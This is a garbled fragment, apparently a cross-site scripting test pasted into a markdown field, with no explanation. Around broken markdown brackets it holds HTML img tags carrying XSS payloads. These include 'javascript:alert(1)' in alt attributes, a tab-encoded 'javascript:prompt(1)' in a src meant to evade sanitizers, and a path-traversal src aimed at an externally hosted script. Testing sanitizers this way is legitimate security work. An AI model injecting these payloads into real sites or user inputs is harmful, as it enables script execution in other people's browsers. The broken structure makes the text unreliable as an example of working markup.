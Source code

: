 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<img src="&Tab;javascript:prompt(1)&Tab;" alt="javascript:alert(1)"/>


](()
